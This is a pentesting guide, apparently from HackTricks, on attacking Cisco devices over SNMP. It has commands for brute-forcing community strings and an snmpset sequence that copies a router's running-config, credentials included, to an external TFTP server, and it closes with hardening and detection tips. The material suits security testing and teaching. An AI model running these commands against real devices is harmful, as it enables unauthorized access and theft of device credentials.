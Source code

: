 # Cisco SNMP

{{#include ../../banners/hacktricks-training.md}}


## Pentesting Cisco Networks

**SNMP** functions over UDP with ports **161/UDP** for general messages and **162/UDP** for trap messages. This protocol relies on *community strings*, serving as plaintext "passwords" that enable communication between SNMP agents and managers. These strings determine the access level, specifically **read-only (RO) or read-write (RW) permissions**.

A classic—yet still extremely effective—attack vector is to **brute-force community strings** in order to elevate from unauthenticated user to device administrator (RW community).  
A practical tool for this task is [**onesixtyone**](https://github.com/trailofbits/onesixtyone):

```bash
onesixtyone -c community_strings.txt -i targets.txt
```

Other fast options are the Nmap NSE script `snmp-brute` or Hydra's SNMP module:

```bash
nmap -sU -p161 --script snmp-brute --script-args brute.community=wordlist 10.0.0.0/24
hydra -P wordlist.txt -s 161 10.10.10.1 snmp
```

---

### Dumping configuration through SNMP (CISCO-CONFIG-COPY-MIB)
If you obtain an **RW community** you can copy the running-config/startup-config to a TFTP/FTP server *without CLI access* by abusing the CISCO-CONFIG-COPY-MIB (`1.3.6.1.4.1.9.9.96`). Two common approaches are:

1. **Nmap NSE – `snmp-ios-config`**

```bash
nmap -sU -p161 --script snmp-ios-config \
     --script-args creds.snmp=private 192.168.66.1
```
The script automatically orchestrates the copy operation and prints the configuration to stdout   .

2. **Manual `snmpset` sequence**

```bash
# Copy running-config (4) to a TFTP server (1) – random row id 1234
snmpset -v2c -c private 192.168.66.1 \
  1.3.6.1.4.1.9.9.96.1.1.1.1.2.1234 i 1 \    # protocol = tftp
  1.3.6.1.4.1.9.9.96.1.1.1.1.3.1234 i 4 \    # sourceFileType = runningConfig
  1.3.6.1.4.1.9.9.96.1.1.1.1.4.1234 i 1 \    # destFileType   = networkFile
  1.3.6.1.4.1.9.9.96.1.1.1.1.5.1234 a 10.10.14.8 \ # TFTP server IP
  1.3.6.1.4.1.9.9.96.1.1.1.1.6.1234 s \"backup.cfg\" \\
  1.3.6.1.4.1.9.9.96.1.1.1.1.14.1234 i 4       # rowStatus = createAndGo
```
Row identifiers are *one-shot*; reuse within five minutes triggers `inconsistentValue` errors.  

Once the file is on your TFTP server you can inspect credentials (`enable secret`, `username <user> secret`, etc.) or even push a modified config back to the device.

---

### Metasploit goodies

* **`cisco_config_tftp`** – downloads running-config/startup-config via TFTP after abusing the same MIB.
* **`snmp_enum`** – collects device inventory information, VLANs, interface descriptions, ARP tables, etc.

```bash
use auxiliary/scanner/snmp/snmp_enum
set RHOSTS 10.10.100.10
set COMMUNITY public
run
```

---

## Recent Cisco SNMP vulnerabilities (2023 – 2025)
Keeping track of vendor advisories is useful to scope *zero-day-to-n-day* opportunities inside an engagement:

| Year | CVE | Affected feature | Impact |
|------|-----|-----------------|--------|
| 2025 | CVE-2025-20174 | SNMP subsystem | Crafted packet leads to authenticated *DoS* (reload) on IOS/IOS-XE (v1/v2c/v3).   |
| 2024 | CVE-2024-20373 | IPv4 ACL handling | Mis-configured **extended** ACLs silently *fail*, allowing unauthenticated SNMP polling when a valid community/user is known.   |
| 2025 | (no CVE yet) | SNMPv3 configuration restriction bypass | Valid v3 user can poll from addresses that should be denied.   |

Exploitability often still depends on possessing the community string or v3 credentials—another reason why brute-forcing them remains relevant.

---

## Hardening & Detection tips

* Upgrade to a fixed IOS/IOS-XE version (see Cisco advisory for the CVE above).
* Prefer **SNMPv3** with `authPriv` (SHA-256/AES-256) over v1/v2c.  
  ```
  snmp-server group SECURE v3 priv
  snmp-server user monitor SECURE v3 auth sha <authpass> priv aes 256 <privpass>
  ```
* Bind SNMP to a management VRF and **restrict with *standard* numbered IPv4 ACLs** (extended named ACLs are risky – CVE-2024-20373).
* Disable **RW communities**; if operationally required, limit them with ACL and views:  
  `snmp-server community <string> RW 99  view SysView`
* Monitor for:
  - UDP/161 spikes or unexpected sources (SIEM rules).
  - `CISCO-CONFIG-MAN-MIB::ccmHistoryEventConfigSource` events indicating out-of-band config changes.
* Enable **SNMPv3 logging** and `snmp-server packetsize 1500` to reduce certain DoS vectors.

---

## References

- Cisco: *How To Copy Configurations To and From Cisco Devices Using SNMP*  
- Cisco Security Advisory *cisco-sa-snmp-uwBXfqww* (CVE-2024-20373)  

{{#include ../../banners/hacktricks-training.md}}
